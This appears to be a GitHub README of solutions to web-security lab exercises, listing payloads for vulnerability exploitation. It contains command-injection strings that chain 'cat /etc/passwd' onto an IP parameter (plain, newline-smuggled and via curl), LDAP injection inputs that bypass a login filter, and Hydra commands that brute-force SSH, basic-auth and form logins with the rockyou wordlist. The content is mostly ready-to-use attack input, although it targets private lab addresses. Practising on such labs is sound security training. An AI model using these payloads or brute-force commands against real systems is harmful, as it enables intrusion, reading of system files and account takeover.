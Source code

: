 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

## LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f